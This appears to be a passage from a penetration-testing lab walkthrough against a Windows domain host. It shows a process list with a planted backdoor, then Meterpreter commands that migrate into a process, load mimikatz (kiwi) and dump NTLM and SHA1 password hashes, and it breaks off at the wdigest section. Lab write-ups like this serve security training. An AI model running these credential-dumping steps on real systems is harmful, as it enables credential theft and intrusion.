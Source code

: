 ```bash
 2180  1976  httpd.exe          x86   1        GOD\Administrator             C:\phpStudy\Apache\bin\httpd.exe
 2396  2708  cmd.exe            x86   1        GOD\Administrator             C:\Windows\SysWOW64\cmd.exe
 2432  508   taskhost.exe       x64   0        NT AUTHORITY\LOCAL SERVICE    C:\Windows\system32\taskhost.exe
 2448  508   wmpnetwk.exe       x64   0        NT AUTHORITY\NETWORK SERVICE  C:\Program Files\Windows Media Player\wmpnetwk.exe
 2496  508   svchost.exe        x64   0        NT AUTHORITY\SYSTEM           C:\Windows\System32\svchost.exe
 2540  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2620  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2684  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2708  2180  cmd.exe            x86   1        GOD\Administrator             C:\Windows\SysWOW64\cmd.exe
 2884  404   conhost.exe        x64   1        GOD\Administrator             C:\Windows\system32\conhost.exe
 2984  2396  houmen.exe         x64   1        GOD\Administrator             c:\houmen.exe
```

```
meterpreter > migrate 512
[*] Migrating from 2984 to 512...
[-] Error running command migrate: Rex::RuntimeError Cannot migrate into non existent process
```

```
meterpreter > migrate 524
[*] Migrating from 2984 to 524...
[*] Migration completed successfully.
meterpreter > load kiwi
Loading extension kiwi...
  .#####.   mimikatz 2.2.0 20191125 (x64/windows)
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > http://blog.gentilkiwi.com/mimikatz
 '## v ##'        Vincent LE TOUX            ( vincent.letoux@gmail.com )
  '#####'         > http://pingcastle.com / http://mysmartlogon.com  ***/

Success.
```

```
meterpreter > creds_all
[+] Running as SYSTEM
[*] Retrieving all credentials
msv credentials
===============

Username       Domain  LM                                NTLM                              SHA1
--------       ------  --                                ----                              ----
Administrator  GOD     3cfb20151e7ae02cccf9155e3e7db453  1db9f782898fc137280b588fac868e0b  865b2f37e68a3b8c5af37a0d8c44f95aeb023d9
                                                                                           8
STU1$          GOD                                       f9409788cf55512badac576c9f15ee6d  57d56580669e86b1b07f423540160a275f1bf2f
                                                                                           8

wdigest credentials
===================

Username       Domain  Password
```